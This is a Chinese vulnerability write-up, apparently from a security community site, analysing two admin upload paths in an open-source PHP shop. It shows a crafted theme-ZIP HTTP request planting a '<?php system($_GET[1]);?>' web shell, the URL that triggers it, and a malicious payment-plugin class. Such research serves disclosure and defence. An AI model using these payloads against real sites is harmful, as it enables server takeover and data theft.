










# 某开源商城的代码分析-先知社区

> **来源**: https://xz.aliyun.com/news/17351  
> **文章ID**: 17351

---

## 任意代码执行1

  
发现可以上传主题，但是我没获取到官方主题下载包，只能一步一步调  


```
public static function ThemeAdminUpload($params = [])
    {
        // 文件上传校验
        $error = FileUploadError('theme');
        if($error !== true)
        {
            return DataReturn($error, -1);
        }

        // 文件格式化校验
        $type = ResourcesService::ZipExtTypeList();
        if(!in_array($_FILES['theme']['type'], $type))
        {
            return DataReturn(MyLang('form_upload_zip_message'), -2);
        }

        // 上传处理
        return self::ThemeAdminUploadHandle($_FILES['theme']['tmp_name'], $params);
    }
```

跟进ThemeAdminUploadHandle

```
public static function ThemeAdminUploadHandle($package_file, $params = [])
    {
        // 目录是否有权限
        if(!is_writable(ROOT.self::$html_path))
        {
            return DataReturn(MyLang('common_service.themeadmin.view_dir_no_power_tips').'['.ROOT.self::$html_path.']', -10);
        }
        if(!is_writable(ROOT.self::$static_path))
        {
            return DataReturn(MyLang('common_service.themeadmin.static_dir_no_power_tips').'['.self::$static_path.']', -10);
        }

        // 资源目录
        $dir_list = [
            '_html_'        => ROOT.self::$html_path,
            '_static_'      => ROOT.self::$static_path,
        ];

        // 开始解压文件
        $zip = new \ZipArchive();
        $resource = $zip->open($package_file);
        if($resource !== true)
        {
            return DataReturn(MyLang('form_open_zip_message').'['.$resource.']', -11);
        }

        // 配置信息
        for($i=0; $i<$zip->numFiles; $i++)
        {
            $file = $zip->getNameIndex($i);
            if(stripos($file, 'config.json') !== false)
            {
                // 打开文件资源
                $stream = $zip->getStream($file);
                if($stream === false)
                {
                    $zip->close();
                    return DataReturn(MyLang('common_service.themeadmin.upload_config_file_get_fail_tips'), -1);
                }

                // 获取配置信息并解析
                $file_content = stream_get_contents($stream);
                $config = empty($file_content) ? [] : json_decode($file_content, true);
                if(empty($config))
                {
                    $zip->close();
                    return DataReturn(MyLang('common_service.themeadmin.config_file_no_exist_tips'), -1);
                }

                // 主题名称
                $theme = substr($file, 0, strpos($file, '/'));

                // 安全验证
                $ret = self::ThemeAdminLegalCheck($theme, $config);
                if($ret['code'] != 0)
                {
                    $zip->close();
                    return $ret;
                }
            }
        }

        // 处理文件
        $success = 0;
        for($i=0; $i<$zip->numFiles; $i++)
        {
            // 资源文件
            $file = $zip->getNameIndex($i);

            // 排除临时文件和临时目录
            if(strpos($file, '/.') === false && strpos($file, '__') === false)
            {
                // 文件包对应系统所在目录
                $is_has_find = false;
                foreach($dir_list as $dir_key=>$dir_value)
                {
                    if(strpos($file, $dir_key) !== false)
                    {
                        // 匹配成功文件路径处理、跳出循环
                        $new_file = str_replace($dir_key.'/', '', $dir_value.$file);
                        $is_has_find = true;
                        break;
                    }
                }

                // 没有匹配到则指定目录跳过
                if($is_has_find == false)
                {
                    continue;
                }

                // 排除后缀文件
                $pos = strripos($file, '.');
                if($pos !== false)
                {
                    $info = pathinfo($file);
                    if(isset($info['extension']) && in_array(strtolower($info['extension']), self::$exclude_ext))
                    {
                        continue;
                    }
                }

                // 截取文件路径
                $file_path = substr($new_file, 0, strrpos($new_file, '/'));

                // 路径不存在则创建
                if(!is_dir($file_path))
                {
                    mkdir($file_path, 0777, true);
                }

                // 如果不是目录则写入文件
                if(!is_dir($new_file))
                {
                    // 读取这个文件
                    $stream = $zip->getStream($file);
                    if($stream !== false)
                    {
                        $file_content = stream_get_contents($stream);
                        if($file_content !== false)
                        {
                            if(file_put_contents($new_file, $file_content))
                            {
                                $success++;
                            }
                        }
                        fclose($stream);
                    }
                }
            }
        }
        // 关闭zip  
        $zip->close();

        // 未匹配成功一个文件则认为插件包无效
        if($success <= 0)
        {
            return DataReturn(MyLang('common_service.themeadmin.package_invalid_tips'), -1);
        }

        // 主题数据处理
        ThemeDataService::ThemeDataUploadHandle($package_file, array_merge($params, ['is_theme_upload'=>1]));

        // 返回成功
        return DataReturn(MyLang('install_success'), 0);
    }
```

主要就是解压压缩包，但是有一系列判断，是否有config.json都无所谓，看到

```
strpos($file, $dir_key) !== false
```

意思是压缩包里的文件要在`_html_`或者`_static_`文件夹下，后面还有

```
isset($info['extension']) && in_array(strtolower($info['extension']), self::$exclude_ext)
```

意思是禁止php后缀上传，然后就根据路径上传，思路就是将一个html文件（里面是php代码）上传到`app/index/view/default/agreement`，压缩包里的路径`_html_/default/agreement/1.html`，这个系统会动态加载模板里的文件，具体就不细调了，感兴趣的可以去调一调

```
POST /adminfyrkkw.php?s=themeadmin/upload&system_type=default HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLVxtmPrYVcQt1RBs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
sec-ch-ua-platform: "Windows"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Referer: http://127.0.0.1/adminfyrkkw.php?s=themeadmin/index/view_type/upload&system_type=default
Origin: http://127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
Cookie: uuid=6dd12dec-f403-7743-294c-1b4f9af7787e; PHPSESSID=31a9c8e474beda5d1c36c30cca777f52; admin_info=%7B%22id%22%3A1%2C%22token%22%3A%22154149659bd95270b304adb9fab945ad%22%2C%22username%22%3A%22admin%22%2C%22mobile%22%3A%22%22%2C%22email%22%3A%22xxx%40email.com%22%2C%22login_total%22%3A1890%2C%22role_id%22%3A1%7D
sec-ch-ua-mobile: ?0
Content-Length: 1299

------WebKitFormBoundaryLVxtmPrYVcQt1RBs
Content-Disposition: form-data; name="theme"; filename="1 (2).zip"
Content-Type: application/x-zip-compressed

{{unquote("PK\x03\x04\x14\x00\x00\x00\x00\x00\xee\xb1sZ\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0f\x00\x00\x00_html_/default/PK\x03\x04\x14\x00\x00\x00\x00\x00\xee\xb1sZ\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x19\x00\x00\x00_html_/default/agreement/PK\x03\x04\x14\x00\x00\x00\x00\x00B\xa9sZ\xa5\x96\xcd\x85\x19\x00\x00\x00\x19\x00\x00\x00#\x00\x00\x00_html_/default/agreement/index.html<?php system\x28$_GET[1]\x29;?>PK\x01\x02\x14\x00\x14\x00\x00\x00\x00\x00\xee\xb1sZ\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00_html_/default/PK\x01\x02\x14\x00\x14\x00\x00\x00\x00\x00\xee\xb1sZ\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00-\x00\x00\x00_html_/default/agreement/PK\x01\x02\x14\x00\x14\x00\x00\x00\x00\x00B\xa9sZ\xa5\x96\xcd\x85\x19\x00\x00\x00\x19\x00\x00\x00#\x00\x00\x00\x00\x00\x00\x00\x01\x00 \x00\x00\x00d\x00\x00\x00_html_/default/agreement/index.htmlPK\x05\x06\x00\x00\x00\x00\x03\x00\x03\x00\xd5\x00\x00\x00\xbe\x00\x00\x00\x00\x00")}}
------WebKitFormBoundaryLVxtmPrYVcQt1RBs--
```

  
上传成功后访问`http://127.0.0.1/?s=agreement/index/&1=whoami`  


## 任意代码执行2

支付方式处可上传插件  
  
对应`app/admin/controller/Payment.php`的`Upload()`

```
public function Upload()
    {
        return ApiService::ApiDataReturn(PaymentService::Upload($this->data_request));
    }
```

跟进Upload方法

```
public static function Upload($params = [])
    {
        // 文件上传校验
        $error = FileUploadError('file');
        if($error !== true)
        {
            return DataReturn($error, -1);
        }

        // 文件格式化校验
        $type = ResourcesService::ZipExtTypeList();
        if(!in_array($_FILES['file']['type'], $type))
        {
            return DataReturn(MyLang('form_upload_zip_message'), -2);
        }

        // 上传处理
        return self::UploadHandle($_FILES['file']['tmp_name'], $params);
    }
```

没看到啥特别的，继续跟进`UploadHandle`方法

```
public static function UploadHandle($package_file, $params = [])
    {
        // 初始化
        self::Init();

        // 权限
        $ret = self::PowerCheck();
        if($ret['code'] != 0)
        {
            return $ret;
        }

        // 开始解压文件
        $zip = new \ZipArchive();
        $resource = $zip->open($package_file);
        if($resource !== true)
        {
            return DataReturn(MyLang('form_open_zip_message').'['.$resource.']', -11);
        }

        $success = 0;
        $error = 0;
        for($i=0; $i<$zip->numFiles; $i++)
        {
            // 资源文件
            $file = $zip->getNameIndex($i);

            // 排除临时文件和临时目录
            if(strpos($file, '/.') === false && strpos($file, '__') === false)
            {
                // 忽略非php文件
                if(substr($file, -4) != '.php')
                {
                    $error++;
                    continue;
                }

                // 文件名称
                $payment = str_replace(array('.', '/', '\', ':'), '', substr($file, 0, -4));

                // 是否已有存在插件
                if(file_exists(self::$payment_dir.$payment))
                {
                    $error++;
                    continue;
                }

                // 如果不是目录则写入文件
                $new_file = self::$payment_dir.$payment.'.php';
                if(!is_dir($new_file))
                {
                    // 读取这个文件
                    $stream = $zip->getStream($file);
                    if($stream !== false)
                    {
                        $file_content = stream_get_contents($stream);
                        if($file_content !== false && strpos($file_content, 'eval(') === false)
                        {
                            if(@file_put_contents($new_file, $file_content) !== false)
                            {
                                // 文件校验
                                $config = self::GetPaymentConfig($payment);
                                if($config === false)
                                {
                                    $error++;
                                    @unlink($new_file);
                                } else {
                                    // 安全验证
                                    $ret = self::PaymentLegalCheck($payment);
                                    if($ret['code'] != 0)
                                    {
                                        @unlink($new_file);
                                        $zip->close();
                                        return $ret;
                                    }

                                    // 安装成功
                                    $success++;
                                }
                            }
                        }
                        fclose($stream);
                    }
                }
            }
        }
        // 关闭zip  
        $zip->close();

        if($success > 0)
        {
            return DataReturn(MyLang('common_service.payment.upload_success_tips', ['success'=>$success, 'error'=>$error]), 0);
        }
        return DataReturn(MyLang('common_service.payment.upload_fail_tips', ['error'=>$error]), -10);
    }
```

发现是先`stream_get_contents`代码再进行校验，所以直接就可以写个`1.php`，内容

```
<?php phpinfo();?>
```

然后就是校验`GetPaymentConfig()`，跟进

```
public static function GetPaymentConfig($payment)  
{  
    $payment = '\payment\'.$payment;  
    if(class_exists($payment))  
    {  
        $obj = new $payment();  
        if(method_exists($obj, 'Config') && method_exists($obj, 'Pay') && method_exists($obj, 'Respond'))  
        {  
            return $obj->Config();  
        }  
    }  
    return false;  
}
```

`class_exists`这里会动态加载刚刚上传的1.php，调试结果如下  
  
成功执行  
  
有个`strpos($file_content, 'eval(') === false`过滤，但是没啥用

```
<?php system($_GET[1]);?>
```

  
也可以写一个AlipayScanQrcode.php持久性上传

```
<?php
namespace payment;

class AlipayScanQrcode
{
    // 插件配置参数
    private $config;

    /**
     * 构造方法
     */
    public function __construct($params = [])
    {
        $this->config = $params;
    }

    /**
     * 配置信息
     */
    public function Config()
    {
        phpinfo();
        exit; // 终止程序执行
    }

    /**
     * 支付入口
     */
    public function Pay($params = [])
    {
        phpinfo();
        exit; // 终止程序执行
    }

    /**
     * 支付回调处理
     */
    public function Respond($params = [])
    {
        phpinfo();
        exit; // 终止程序执行
    }

    /**
     * 异步回调处理
     */
    public function Notify($params = [])
    {
        $this->Respond($params);
    }

    /**
     * 退款处理
     */
    public function Refund($params = [])
    {
        phpinfo();
        exit; // 终止程序执行
    }

    /**
     * 支付成功返回
     */
    public function SuccessReturn($data)
    {
        phpinfo();
        exit; // 终止程序执行
    }

    /**
     * 支付失败返回
     */
    public function ErrorReturn($data)
    {
        phpinfo();
        exit; // 终止程序执行
    }
}
?>
```

  
直接就渲染了  

